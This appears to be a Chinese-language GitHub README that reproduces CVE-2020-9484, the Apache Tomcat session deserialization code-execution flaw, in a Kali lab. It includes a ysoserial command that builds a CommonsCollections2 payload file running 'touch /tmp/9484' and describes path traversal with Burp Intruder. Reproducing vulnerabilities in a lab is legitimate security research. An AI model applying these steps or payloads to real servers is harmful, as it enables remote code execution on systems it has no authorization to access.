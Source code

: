 # CVE-2020-9484
用Kali 2.0复现Apache Tomcat Session反序列化代码执行漏洞 CVE-2020-9484
## 环境：
1.	Kali 2.0
2.	apache-tomcat-7.0.61-CVE-2020-9484.tar.gz（webapp是s2-053，在其lib下加了commons-collections4-4.0.jar）
<br><br>
## 启动
/yourtomcatdir/bin/startup.sh
![image](https://github.com/IdealDreamLast/CVE-2020-9484/blob/master/img/start.png)
<br><br>
## 生成payload
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections2 "touch /tmp/9484" > /tmp/22222.session
<br><br>
## 利用

先访问S2-053看是否启动正常：
http://192.168.152.128:8080/s2-053/
![image](https://github.com/IdealDreamLast/CVE-2020-9484/blob/master/img/s2-053.png)
<br>
重新访问抓包，用intruder进行路径遍历
![image](https://github.com/IdealDreamLast/CVE-2020-9484/blob/master/img/intruder1.png)<br>
![image](https://github.com/IdealDreamLast/CVE-2020-9484/blob/master/img/intruder2.png)

<br>

执行命令成功：
![image](https://github.com/IdealDreamLast/CVE-2020-9484/blob/master/img/ok.png)

<br>
<br>
Reference ：  https://mp.weixin.qq.com/s/OGdHSwqydiDqe-BUkheTGg